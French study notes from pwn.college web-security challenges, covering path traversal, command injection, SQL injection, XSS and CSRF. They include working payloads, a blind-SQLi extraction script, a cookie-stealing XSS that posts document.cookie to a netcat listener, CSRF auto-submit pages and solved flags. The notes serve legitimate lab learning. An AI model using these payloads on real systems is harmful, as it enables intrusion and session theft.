


[🏠 Accueil du repo](../README.md)

# Notes personnelles — Vulnérabilités Web

Fiches de révision issues des challenges **pwn.college** (path traversal, injections, XSS, CSRF…), rédigées au fil de la résolution de chaque niveau : principe de la faille, code vulnérable, payload et commande de résolution.

## Sommaire

- [1. Path Traversal 1](#1-path-traversal-1)
- [2. Path Traversal 2](#2-path-traversal-2)
- [3. Command Injection 1 (CMDi-1)](#3-command-injection-1-cmdi-1)
- [4. Command Injection 2 (CMDi-2)](#4-command-injection-2-cmdi-2)
- [5. Command Injection 3 — quotes simples](#5-command-injection-3--quotes-simples)
- [6. Command Injection 4 — injection hors `ls`](#6-command-injection-4--injection-hors-ls)
- [7. Command Injection 5 — Blind CMDi](#7-command-injection-5--blind-cmdi)
- [8. Command Injection 6 — filtrage contourné par newline](#8-command-injection-6--filtrage-contourné-par-newline)
- [9. Authentication Bypass 1 & 2](#9-authentication-bypass-1--2)
- [10. SQLi 1 — Injection classique](#10-sqli-1--injection-classique)
- [11. SQLi 3 — UNION-based](#11-sqli-3--union-based)
- [12. SQLi 4 — table name randomisée](#12-sqli-4--table-name-randomisée)
- [13. SQLi — Blind (Boolean-based)](#13-sqli--blind-boolean-based)
- [14. XSS Stored — injection de balises HTML](#14-xss-stored--injection-de-balises-html)
- [15. XSS Stored — exécution de JavaScript](#15-xss-stored--exécution-de-javascript)
- [16. XSS Reflected — paramètre GET](#16-xss-reflected--paramètre-get)
- [17. XSS — Context Breaking (sortie de `<textarea>`)](#17-xss--context-breaking-sortie-de-textarea)
- [18. XSS → CSRF — POST via `fetch()`](#18-xss--csrf--post-via-fetch)
- [19. XSS Stored & Exfiltration de cookie](#19-xss-stored--exfiltration-de-cookie)
- [20. CSRF Level 1 — navigation GET forcée](#20-csrf-level-1--navigation-get-forcée)
- [21. CSRF — soumission de formulaire POST](#21-csrf--soumission-de-formulaire-post)
- [22. CSRF → XSS chaînés](#22-csrf--xss-chaînés)

---



---

[⬆ Sommaire](#sommaire)

## 1. Path Traversal 1

**Principe** — le serveur construit le chemin ainsi, sans aucune sanitization :

```python
requested_path = app.root_path + "/files/" + path
```

On peut donc remonter dans l'arborescence avec `../`.

**Problème** — si on met `../` en clair, le client (curl) ou le serveur normalise le chemin **avant** qu'il n'arrive à l'application. On reçoit donc une erreur 404.

**Solution** — encoder le `/` en `%2F` pour que le serveur reçoive vraiment les `../`.

```bash
curl "http://challenge.localhost:80/<route>/..%2F..%2Fflag"
```

[⬆ Sommaire](#sommaire)

## 2. Path Traversal 2

**Principe** — le développeur a ajouté un filtre :

```python
path.strip("/.")
```

Cela enlève les `.` et `/` **uniquement au début et à la fin** de la chaîne.

**Conséquence** — `../../flag` devient `flag` → plus de traversal apparent.

**Solution** — partir d'un dossier qui existe vraiment dans `/challenge/files/` (ici `fortunes/`). Les `../` ne sont alors plus en tête de chaîne, donc ils ne sont pas strippés.

```bash
curl "http://challenge.localhost:80/<route>/fortunes/..%2F..%2F..%2Fflag"
```

[⬆ Sommaire](#sommaire)

## 3. Command Injection 1 (CMDi-1)

**Principe** — le paramètre utilisateur est collé directement dans une commande shell :

```python
command = f"ls -l {arg}"
subprocess.run(command, shell=True, ...)
```

**Solution classique** — utiliser le séparateur de commandes `;` :

```bash
curl "http://challenge.localhost:80/<route>?<param>=/challenge;cat+/flag"
```

[⬆ Sommaire](#sommaire)

## 4. Command Injection 2 (CMDi-2)

**Principe** — le développeur filtre le `;` :

```python
arg = flask.request.args.get("start", "/challenge").replace(";", "")
```

**Solution** — utiliser le **pipe** `|` (vu dans le module Piping du Linux Luminarium).

Sur l'instance : route `/activity`, paramètre `start`.

```bash
curl "http://challenge.localhost:80/activity?start=/%20|%20cat%20/flag"
```

**Résultat** — la commande devient `ls -l / | cat /flag` → le flag s'affiche dans la balise `<pre>`.

**Flag obtenu** : `pwn.college{I7TgvdoLd2fUGJpHvbSkAYCitPE.QX0YTN2wyN2MDM5EzW}`

[⬆ Sommaire](#sommaire)

## 5. Command Injection 3 — quotes simples

**Principe** — le développeur a mis l'input utilisateur **entre simples quotes** :

```python
command = f"ls -l '{arg}'"
```

Conséquence : les caractères spéciaux (`;`, `|`, `$`, etc.) sont traités comme du **texte normal** tant que la quote n'est pas fermée.

**Problème** — impossible d'injecter directement `;cat /flag` ou `|cat /flag`, tout est protégé par les `'`.

**Solution** — fermer la quote nous-mêmes, injecter la commande, puis gérer la quote qui reste à la fin (ajoutée par le code).

Payload classique :

```
/';cat /flag'
```

Sur l'instance : route `/problem`, paramètre `topdir`.

```bash
# 1. Lancer le serveur
/challenge/server

# 2. Injection
curl "http://challenge.localhost:80/problem?topdir=/';cat+/flag'"
```

**Ce que le shell exécute vraiment :**

```bash
ls -l '/';cat /flag''
```

- `'` → ferme la quote ouverte par le développeur
- `;cat /flag` → nouvelle commande
- `'` → absorbe la quote finale ajoutée par le code

→ le flag s'affiche dans le `<pre>`.

**Astuce** : il y a **toujours** une `'` à la fin de la commande générée par le code — à prendre en compte dans le payload.

[⬆ Sommaire](#sommaire)

## 6. Command Injection 4 — injection hors `ls`

**Principe** — l'injection n'est plus dans un `ls`, mais dans une **autre partie** de la commande :

```python
command = f"TZ={arg} date"
```

Sur l'instance : route `/event`, paramètre `tzid`.

**Solution :**

```bash
curl "http://challenge.localhost:80/event?tzid=;cat+/flag"
```

[⬆ Sommaire](#sommaire)

## 7. Command Injection 5 — Blind CMDi

**Principe** — le serveur exécute une commande (`touch {arg}`) mais **ne renvoie pas** la sortie de la commande injectée. Il faut donc **exfiltrer** le flag autrement (écriture dans un fichier).

Sur l'instance : route `/dare`, paramètre `path`, commande `touch {arg}`.

**Solution :**

```bash
# 1. Lancer le serveur
/challenge/server

# 2. Injecter pour écrire le flag dans un fichier
curl "http://challenge.localhost:80/dare?path=;cat+/flag+>/tmp/flag.txt"

# 3. Lire le fichier
cat /tmp/flag.txt
```

[⬆ Sommaire](#sommaire)

## 8. Command Injection 6 — filtrage contourné par newline

**Principe** — le développeur filtre **presque** tous les caractères dangereux :

```python
arg.replace(";", "").replace("&", "").replace("|", "") \
   .replace(">", "").replace("<", "").replace("(", "") \
   .replace(")", "").replace("`", "").replace("$", "")
```

Il oublie le **newline** (`\n` / `%0a`).

Sur l'instance : route `/task`, paramètre `filepath`.

**Solution :**

```bash
curl "http://challenge.localhost:80/task?filepath=/%0acat%20/flag"
```

**Ce que le shell exécute :**

```bash
ls -l /
cat /flag
```

Le `\n` agit comme un séparateur de commandes → le flag s'affiche.

[⬆ Sommaire](#sommaire)

## 9. Authentication Bypass 1 & 2

### Bypass 1 — paramètre d'URL non vérifié

Le serveur fait confiance au paramètre d'URL `session_user` sans vérifier s'il provient réellement d'une authentification réussie.

```bash
curl "http://challenge.localhost:80/?session_user=admin"
```

### Bypass 2 — cookie non vérifié côté serveur

Le serveur stocke maintenant la session dans un **cookie** au lieu d'un paramètre d'URL :

```python
response.set_cookie('session_user', username)
# ...
username = flask.request.cookies.get("session_user")
if username == "admin":
    afficher le flag
```

Le cookie étant entièrement contrôlé côté client et jamais signé/vérifié, il suffit de le forger :

```bash
curl -b "session_user=admin" "http://challenge.localhost:80/"
```

[⬆ Sommaire](#sommaire)

## 10. SQLi 1 — Injection classique

### Contexte

- **Cible :** application Flask lisant une base SQLite.
- **Objectif :** s'authentifier en tant qu'`admin` pour récupérer le contenu de `/flag`.
- **Particularité :** les sessions utilisateur sont gérées via des cookies chiffrés (impossibles à modifier directement) — l'authentification doit donc être validée par la base de données elle-même.

Contrairement au niveau précédent, les entrées utilisateur sont injectées **entre guillemets simples (`'`)**, et la session enregistre directement la valeur brute passée dans `username` :

```python
flask.session["user"] = username
```

L'affichage du flag nécessite une correspondance **exacte** de la session :

```python
if username == "admin":
    page += "<br>Here is your flag: " + open("/flag").read()
```

### Piège : injecter sur `userid` plutôt que sur `account-password`

- **Si l'injection se fait sur `userid`** (ex: `admin'--`) : la requête SQL réussit et la base retourne l'utilisateur, mais `flask.session["user"]` enregistre `"admin'--"`. Le check `username == "admin"` échoue.
- **La bonne stratégie :** garder `userid = admin` (pour que la session stocke exactement `"admin"`) et injecter le payload dans le champ `account-password`.

### Construction du payload

En envoyant `userid=admin` et `account-password=' OR '1'='1`, la requête SQL générée devient :

```sql
SELECT rowid, * FROM users WHERE username = 'admin' AND password = '' OR '1'='1'
```

Évaluation par le moteur SQL :

1. `AND` est prioritaire sur `OR`.
2. SQLite évalue `(username = 'admin' AND password = '')` → **Faux**.
3. Il évalue ensuite `FALSE OR ('1' = '1')` → **Vrai**.
4. La ligne de l'utilisateur `admin` est retournée par la base de données.

### Commandes de résolution

```bash
# 1. Envoi de l'injection sur le champ mot de passe
curl -X POST "http://challenge.localhost/logon" \
  -H "Host: challenge.localhost" \
  -d "userid=admin" \
  --data-urlencode "account-password=' OR '1'='1" \
  -c cookies.txt -L

# 2. Récupération du flag
curl "http://challenge.localhost/logon" \
  -H "Host: challenge.localhost" \
  -b cookies.txt
```

[⬆ Sommaire](#sommaire)

## 11. SQLi 3 — UNION-based

### Contexte

L'application recherche un utilisateur et affiche le résultat directement sur la page :

```python
sql = f'SELECT username FROM users WHERE username LIKE "{query}"'
```

- **Le flag** est stocké dans la colonne `password` de la table `users`, pour le compte `admin`.
- **Particularité :** l'application n'affiche que les valeurs renvoyées par la colonne `username` du résultat.
- **Problème :** une simple clause `OR 1=1` afficherait les noms d'utilisateurs, mais pas leurs mots de passe.

### Principe de l'injection UNION

L'opérateur SQL `UNION` permet de combiner les résultats de deux requêtes `SELECT` distinctes en un seul jeu de données. Règles :

1. Les deux requêtes doivent retourner le **même nombre de colonnes**.
2. Les types de données des colonnes correspondantes doivent être compatibles.

Comme la requête initiale sélectionne 1 seule colonne (`username`), la deuxième requête du `UNION` doit également sélectionner 1 seule colonne (`password`).

### Construction du payload

Entrée : `" UNION SELECT password FROM users --`

Requête générée :

```sql
SELECT username FROM users WHERE username LIKE "" UNION SELECT password FROM users --"
```

Décomposition : `"` ferme le guillemet double entourant la variable `query` ; `UNION SELECT password FROM users` ajoute les résultats de la colonne `password` au résultat final affiché ; `--` commente le reste de la requête originale pour éviter une erreur de syntaxe SQL.

### Commande de résolution

```bash
curl "http://challenge.localhost/?query=%22%20UNION%20SELECT%20password%20FROM%20users%20--" \
  -H "Host: challenge.localhost"
```

[⬆ Sommaire](#sommaire)

## 12. SQLi 4 — table name randomisée

### Étape 1 — extraire le nom de table randomisé

SQLite maintient automatiquement une table système `sqlite_master` (ou `sqlite_schema`) contenant les métadonnées de toutes les tables. Les colonnes `tbl_name` ou `sql` stockent les noms de table et leurs instructions de création. En réutilisant la technique `UNION SELECT` du niveau précédent :

```
" UNION SELECT tbl_name FROM sqlite_master --
```

```bash
curl "http://challenge.localhost/?query=%22%20UNION%20SELECT%20tbl_name%20FROM%20sqlite_master%20--" \
  -H "Host: challenge.localhost"
```

La sortie dans la balise `<pre>` révèle le nom de table randomisé (ex : `users_8589934592`).

### Étape 2 — extraire le flag depuis la table découverte

Une fois le nom de table obtenu (ex : `users_12345678`), on injecte une seconde requête `UNION SELECT` ciblant cette table pour extraire la colonne `password` :

```bash
curl "http://challenge.localhost/?query=%22%20UNION%20SELECT%20password%20FROM%20users_12345678%20--" \
  -H "Host: challenge.localhost"
```

*(remplacer `users_12345678` par le nom de table réellement retourné à l'étape 1).*

[⬆ Sommaire](#sommaire)

## 13. SQLi — Blind (Boolean-based)

### Contexte

- **Contrainte :** l'application ne renvoie **aucun résultat SQL** à l'écran.
- **Différence de comportement :**
  - Connexion réussie (utilisateur trouvé) → code HTTP **302 (Redirection)**
  - Connexion échouée (aucun utilisateur) → code HTTP **403 (Forbidden)**
- **Objectif :** extraire le flag (mot de passe de `admin`) caractère par caractère en posant des questions Vrai/Faux à la base de données.

### Principe du Boolean-based Blind SQLi

On reconstruit une requête dont le résultat dépend d'une condition booléenne :

```sql
SELECT rowid, * FROM users WHERE username = 'admin' AND password = ''
OR (username='admin' AND substr(password, 1, 1)='p') --'
```

- **Si l'hypothèse est VRAIE** (le 1er caractère est bien `p`) : la base renvoie la ligne de l'utilisateur `admin`, le serveur répond **302**.
- **Si l'hypothèse est FAUSSE** : la base ne renvoie aucune ligne, le serveur répond **403**.

### Fonctions SQLite utilisées

- `SUBSTR(chaine, position, longueur)` — extrait une sous-chaîne à partir d'un index basé sur 1 (ex : `substr(password, 1, 1)` extrait le premier caractère).
- `LENGTH(chaine)` — renvoie la longueur de la chaîne (utile pour connaître la taille exacte avant extraction).

### Script d'automatisation

```python
import requests
import string

url = "http://127.0.0.1/"
headers = {"Host": "challenge.localhost"}
charset = string.ascii_letters + string.digits + "_{}."
flag = ""

print("[+] Lancement de l'extraction par Blind SQL Injection...")

for pos in range(1, 100):
    found_char = False
    for char in charset:
        payload = f"' OR (username='admin' AND substr(password,{pos},1)='{char}') --"
        r = requests.post(
            url, headers=headers,
            data={"username": "admin", "password": payload},
            allow_redirects=False,
        )
        if r.status_code == 302:
            flag += char
            print(f"[+] Caractère {pos} trouvé : {char} -> Flag : {flag}")
            found_char = True
            if char == "}":
                print(f"\n[!] Flag complet extrait : {flag}")
                exit(0)
            break
    if not found_char:
        break
```

[⬆ Sommaire](#sommaire)

## 14. XSS Stored — injection de balises HTML

### Contexte

- **Changement de paradigme :** contrairement aux injections SQL ou de commandes où la cible est le serveur web, l'XSS vise **le navigateur du client/utilisateur** (ici simulé par `/challenge/victim`).
- **Mécanisme Stored XSS :** l'attaquant injecte un contenu malveillant (HTML/JavaScript) qui est enregistré de manière permanente dans la base de données du serveur. Chaque utilisateur qui consulte la page reçoit ce contenu malveillant.

### Vulnérabilité du code source

Dans `/challenge/server` :

```python
# 1. Insertion brute en base de données (aucune désinfection)
db.execute("INSERT INTO posts VALUES (?)", [content])

# 2. Rendu HTML par concaténation directe sans échappement
for post in db.execute("SELECT content FROM posts").fetchall():
    page += "<hr>" + post["content"] + "\n"
```

Le problème : l'application traite l'entrée utilisateur comme du code HTML valide au lieu de la convertir en texte brut (absence d'échappement des caractères spéciaux comme `<` et `>`).

### Méthodologie d'exploitation

Condition de réussite : faire en sorte que le script victime voie **3 zones de texte** (`<input type="text">`) lors de sa visite. L'état initial contient déjà 1 formulaire avec 1 champ :

```html
<form method=post>Post:<input type=text name=content>...
```

Attaque : envoyer **2 posts supplémentaires** contenant chacun une balise `<input type='text'>`.

### Commandes de résolution

```bash
# 1. Lancement du serveur (si besoin)
/challenge/server &

# 2. Injection des 2 balises HTML via POST
curl -X POST "http://challenge.localhost/" \
  -H "Host: challenge.localhost" \
  -d "content=<input type='text'>"

curl -X POST "http://challenge.localhost/" \
  -H "Host: challenge.localhost" \
  -d "content=<input type='text'>"

# 3. Déclenchement du bot victime
/challenge/victim "http://challenge.localhost/"
```

[⬆ Sommaire](#sommaire)

## 15. XSS Stored — exécution de JavaScript

### Contexte

Évolution par rapport au niveau précédent : au lieu d'injecter de simples balises de structure HTML (`<input>`), l'injection force l'exécution d'un **script JavaScript** côté client, via la balise `<script>`.

### Vulnérabilité

Dans `/challenge/server`, l'application concatène directement le contenu soumis sans validation ni sanitisation :

```python
for post in db.execute("SELECT content FROM posts").fetchall():
    page += "<hr>" + post["content"] + "\n"
```

Le navigateur reçoit le bloc HTML suivant et exécute automatiquement le script :

```html
<hr><script>alert("PWNED")</script>
```

### Payload et exploitation

```html
<script>alert("PWNED")</script>
```

L'appel JavaScript `alert()` se déclenche lors du rendu du document HTML dans le navigateur de la victime (`/challenge/victim`).

### Commandes de résolution

```bash
# 1. Injection du payload XSS
curl -X POST "http://challenge.localhost/" \
  -H "Host: challenge.localhost" \
  --data-urlencode "content=<script>alert('PWNED')</script>"

# 2. Déclenchement du bot victime
/challenge/victim "http://challenge.localhost/"
```

[⬆ Sommaire](#sommaire)

## 16. XSS Reflected — paramètre GET

### Vulnérabilité

Dans `/challenge/server` :

```python
@app.route("/", methods=["GET"])
def challenge_get():
    return f"""
<html><body>
<h1>pwnmsg ephemeral message service</h1>
The message: {flask.request.args.get("msg", "(none)")}
...
```

Le problème : l'application récupère la valeur du paramètre GET `msg` directement depuis l'URL et la concatène dans la réponse HTML sans aucun nettoyage ni échappement.

### Méthodologie

- **Payload brut :** `<script>alert("PWNED")</script>`
- **URL-encoding :** les caractères spéciaux dans un paramètre GET doivent être encodés (`<` → `%3C`, `>` → `%3E`, etc.) pour éviter les erreurs de parsing côté serveur.
- **URL forgée :**

```
http://challenge.localhost/?msg=%3Cscript%3Ealert(%22PWNED%22)%3C/script%3E
```

### Commande de résolution

```bash
/challenge/victim "http://challenge.localhost/?msg=%3Cscript%3Ealert(%22PWNED%22)%3C/script%3E"
```

[⬆ Sommaire](#sommaire)

## 17. XSS — Context Breaking (sortie de `<textarea>`)

### Problématique du contexte

En sécurité web, le **contexte** détermine comment le navigateur interprète les données injectées :

- **Contexte HTML standard :** les balises `<script>` sont directement exécutées.
- **Contexte HTML restrictif** (`<textarea>`, `<title>`, `<style>`...) : tout ce qui se trouve à l'intérieur est traité comme du **texte brut**. Une balise `<script>` injectée à l'intérieur d'un `<textarea>` ne s'exécutera pas, car le navigateur la considère comme faisant partie de la valeur du champ.

### Vulnérabilité du code source

Dans `/challenge/server` :

```python
@app.route("/", methods=["GET"])
def challenge_get():
    return f"""
<html><body>
<h1>pwnmsg ephemeral message service</h1>
The message:
<form>
<textarea name=msg>{flask.request.args.get("msg", "Type your message here!")}</textarea>
<input type=submit value="Make URL!">
</form>
</body></html>
"""
```

Le problème : l'entrée utilisateur est directement reflétée **à l'intérieur** des balises `<textarea>` et `</textarea>`.

### Technique d'attaque : cassage de contexte

Pour exécuter du JavaScript, l'attaque se déroule en deux étapes :

1. **Fermer la balise parente** pour sortir du contexte restrictif avec `</textarea>`.
2. **Injecter la charge malveillante** immédiatement après.

Payload brut :

```html
</textarea><script>alert("PWNED")</script>
```

Structure HTML finale générée par le serveur :

```html
<textarea name=msg></textarea><script>alert("PWNED")</script></textarea>
```

*(le navigateur ferme la zone de texte au premier `</textarea>` rencontré, puis exécute le script).*

### Commande de résolution

```bash
/challenge/victim "http://challenge.localhost/?msg=%3C/textarea%3E%3Cscript%3Ealert(%22PWNED%22)%3C/script%3E"
```

[⬆ Sommaire](#sommaire)

## 18. XSS → CSRF — POST via `fetch()`

### Évolution du vecteur d'attaque

- **GET vs POST :** dans les applications web sécurisées, les actions modifiant l'état (création, mise à jour, suppression) doivent utiliser la méthode POST plutôt que GET, pour éviter l'exécution accidentelle ou la pré-mise en cache.
- **Capacité de l'XSS :** une fois le code JavaScript exécuté dans le navigateur de la victime, l'attaquant dispose des mêmes privilèges et accès réseau que l'utilisateur. L'API `fetch()` permet d'effectuer tous les types de requêtes HTTP (GET, POST, PUT, DELETE).

### Code source vulnérable

Dans `/challenge/server` :

```python
@app.route("/publish", methods=["POST"])
def challenge_publish():
    username = flask.session.get("username", None)
    if not username:
        flask.abort(403, "Log in first!")
    db.execute("UPDATE posts SET published = TRUE WHERE author = ?", [username])
    return flask.redirect("/")
```

Le problème : l'endpoint `/publish` vérifie uniquement la présence de la session (`username`), mais n'exige aucun **jeton anti-CSRF**. Toute requête POST émise depuis le navigateur d'un utilisateur connecté est donc acceptée et exécutée.

### Payload Fetch POST

Par défaut, `fetch(url)` envoie une requête GET. Pour une requête POST, on spécifie les options :

```html
<script>
fetch('/publish', { method: 'POST' });
</script>
```

### Déroulement complet de l'attaque

1. **Connexion** : récupération d'une session valide pour le compte `hacker`.
2. **Injection & publication immédiate** : soumission du brouillon avec `publish=on` pour contourner le découpage à 12 caractères (`[:12]`).
3. **Visite de la victime** : quand le bot admin consulte la page d'accueil `/`, le script s'exécute sous l'identité de l'administrateur.
4. **Action forcée** : le script effectue un `POST /publish` avec la session de l'admin, publiant son brouillon contenant le flag.
5. **Extraction** : récupération du flag depuis la page d'accueil avec le cookie du compte `hacker`.

### Commandes de résolution

```bash
# 1. Authentification
curl -s -c cookies.txt -X POST "http://challenge.localhost/login" \
  -H "Host: challenge.localhost" \
  -d "username=hacker&password=1337"

# 2. Injection du payload POST avec publish=on
curl -s -b cookies.txt -X POST "http://challenge.localhost/draft" \
  -H "Host: challenge.localhost" \
  -d "content=<script>fetch('/publish', {method: 'POST'})</script>&publish=on"

# 3. Exécution par le bot admin
/challenge/victim "http://challenge.localhost/"

# 4. Lecture du flag (avec session authentifiée)
curl -s -b cookies.txt "http://challenge.localhost/" \
  -H "Host: challenge.localhost" | grep -oE "pwn\.college\{[^}]+\}"
```

Le passage par `--data-urlencode`, associé au `fetch()` en **POST**, était la clé pour contourner les problèmes d'interprétation des caractères spéciaux par curl et la politique réseau du navigateur.

[⬆ Sommaire](#sommaire)

## 19. XSS Stored & Exfiltration de cookie

### Analyse du payload gagnant

```bash
curl -s -b cookies.txt -X POST "http://challenge.localhost/draft" \
  --data-urlencode 'content=<script>fetch("http://0.0.0.0:6969",{method:"POST",body:document.cookie});</script>' \
  -d "publish=on"
```

- **L'URL-encoding (`--data-urlencode`)** : c'est ce qui a débloqué la situation. Face à des guillemets, espaces et caractères spéciaux dans la chaîne `<script>`, Bash et le serveur Flask tronquaient ou altéraient le payload. En l'encodant proprement avant l'envoi, le code JavaScript arrive intact en base de données.
- **`0.0.0.0` vs `127.0.0.1`** : dans certains environnements virtualisés / sous Firefox Selenium, `127.0.0.1` ou `localhost` peuvent être restreints par la Same-Origin Policy (SOP). Pointer vers l'interface `0.0.0.0:6969` (port non standard) écoute sur toutes les interfaces locales et atteint directement Netcat.
- **La méthode POST pour `fetch`** : envoyer `document.cookie` dans le corps de la requête (`body`) évite que le cookie soit rejeté ou découpé par les règles d'URL/query parameters d'une requête GET.

### Anatomie de l'exfiltration via Netcat

Avec `nc -lvnp 6969` à l'écoute :

1. Le bot Selenium se connecte (`POST /login`), recevant le cookie `auth=admin|.QXygTN2wyN2MDM5EzW}`.
2. Le bot arrive sur `/`, exécutant le script XSS stocké.
3. Le navigateur exécute la requête asynchrone `fetch` en arrière-plan vers le port 6969, en injectant le cookie dans le corps HTTP :

```http
POST / HTTP/1.1
Host: 0.0.0.0:6969
Origin: http://challenge.localhost

auth=admin|.QXygTN2wyN2MDM5EzW}
```

### Reconstitution du cookie et usurpation d'identité

Une fois le secret extrait, il suffit de rejouer la requête d'accès sous l'identité de l'administrateur :

```bash
curl -s "http://challenge.localhost/" \
  -H "Host: challenge.localhost" \
  -b "auth=admin|.QXygTN2wyN2MDM5EzW}" | grep -oE "pwn\.college\{[^}]+\}"
```

Le serveur Flask valide la session administrative et renvoie la page d'accueil contenant le flag complet : `pwn.college{MRMFYOmxRWa_d5ESIYJ0NgRtzvC.QXygTN2wyN2MDM5EzW}`.

[⬆ Sommaire](#sommaire)

## 20. CSRF Level 1 — navigation GET forcée

### Objectif du challenge

Forcer l'administrateur du site (`admin`) à effectuer une action privilégiée — **publier son brouillon secret contenant le flag** via la route `/publish` — à son insu, lorsqu'il visite un site malveillant.

### Éléments clés et vulnérabilités

1. **Absence de jeton anti-CSRF** — la route `GET /publish` exécute une action modifiant l'état (publication d'un post) sans demander de preuve d'intention (token CSRF, validation par mot de passe...).
2. **Gestion des sessions et cookies** — l'application s'appuie uniquement sur un cookie de session transmis automatiquement par le navigateur de la victime lors d'une navigation vers `challenge.localhost`.
3. **Comportement SOP / CORS vs navigation top-level** — les requêtes `fetch()` asynchrones depuis `hacker.localhost` sont bloquées par les règles CORS du serveur (erreur 403 Forbidden). En revanche, les redirections de navigation pleine page (`window.location.href`) sont considérées comme des navigations de premier niveau et transmettent le cookie de session (statut 302 Found).

### Étapes d'exploitation

**1. Préparation du payload HTML** (sur le serveur de l'attaquant), fichier `index.html` hébergé sur `http://hacker.localhost:1337/` :

```html
<!DOCTYPE html>
<html>
<body>
<script>
  // Redirige immédiatement le navigateur de la victime vers l'endpoint vulnérable
  window.location.href = "http://challenge.localhost/publish";
</script>
</body>
</html>
```

**2. Démarrage du serveur et déclenchement de la victime :**

```bash
# Servir le fichier malveillant
python3 -m http.server 1337 --bind 0.0.0.0 &

# Forcer l'admin (bot Selenium) à visiter le site
/challenge/victim "http://hacker.localhost:1337/"
```

**3. Récupération du flag** — une fois l'admin redirigé vers `/publish`, son brouillon est publié. Il suffit d'ouvrir une session utilisateur (`hacker`) pour lire la page d'accueil authentifiée :

```bash
# Se connecter pour obtenir un cookie de session
curl -s -c cookies.txt -X POST "http://challenge.localhost/login" \
  -H "Host: challenge.localhost" \
  -d "username=hacker&password=1337"

# Consulter l'accueil authentifié et extraire le flag
curl -s -b cookies.txt "http://challenge.localhost/" \
  -H "Host: challenge.localhost" | grep -oE "pwn\.college\{[^}]+\}"
```

[⬆ Sommaire](#sommaire)

## 21. CSRF — soumission de formulaire POST

### Analyse du payload

```html
<!DOCTYPE html>
<html>
<body>
<form id="csrfForm" action="http://challenge.localhost/publish" method="POST">
  <input type="hidden" name="publish" value="on">
</form>
<script>
  document.getElementById('csrfForm').submit();
</script>
</body>
</html>
```

- **Contournement de la Same-Origin Policy (SOP)** : les requêtes réseau initiées en JavaScript asynchrone (`fetch`, `XHR`) cross-origin bloquent la transmission automatique des cookies d'authentification ou sont rejetées par CORS. En revanche, la soumission d'un formulaire HTML (`<form>`) déclenche une navigation native du navigateur.
- **Transmission automatique des cookies** : lors de cette soumission cross-origin, le navigateur joint automatiquement les cookies de session associés à la cible (`challenge.localhost`), ce qui valide la requête `POST /publish` sous l'identité de l'administrateur.
- **L'auto-soumission (`submit()`)** : le court script JS force le navigateur du bot à soumettre le formulaire immédiatement au chargement de la page, sans interaction utilisateur.

### Déroulement du journal des requêtes

1. Le bot visite le site attaquant : `GET /` (port 1337).
2. Le formulaire s'exécute automatiquement et envoie `POST /publish` vers `challenge.localhost`.
3. L'application traite le brouillon avec le cookie de l'admin et renvoie un statut 302 Found.
4. Le post contenant le flag devient public sur la plateforme.
5. Connexion avec le compte `hacker` et extraction du flag sur l'accueil authentifié.

[⬆ Sommaire](#sommaire)

## 22. CSRF → XSS chaînés

Le principe de cette dernière variante :



Fichier `index.html` :

```html
<!DOCTYPE html>
<html>
<body>
<script>
  let script = "<scr" + "ipt>alert('PWNED')</scr" + "ipt>";
  let url = "http://challenge.localhost/ephemeral?msg=" + encodeURIComponent(script);
  window.location = url;
</script>
</body>
</html>
```

Le détail important : `"<scr" + "ipt>"` et `"</scr" + "ipt>"`. Le hint officiel explique pourquoi — si l'on écrit directement `</script>` **à l'intérieur du `<script>` de `index.html`**, le navigateur peut considérer ce `</script>` comme la fermeture de son propre script, ce qui casse le payload avant même son envoi. Le découper en deux concaténations contourne ce problème.

**Lancer le challenge :**

```bash
/challenge/server &
python3 -m http.server 1337 --bind 0.0.0.0 &
/challenge/victim "http://hacker.localhost:1337/"
```

Sortie attendue :

```
Visiting http://challenge.localhost:80/
Logging in as admin...
Logged in!
Visiting the attacker's website...
Success!
```

[⬆ Sommaire](#sommaire)

---

<p align="center"><i>Fiches alimentées au fil des modules pwn.college résolus — Command Injection, SQL Injection, XSS, CSRF.</i></p>
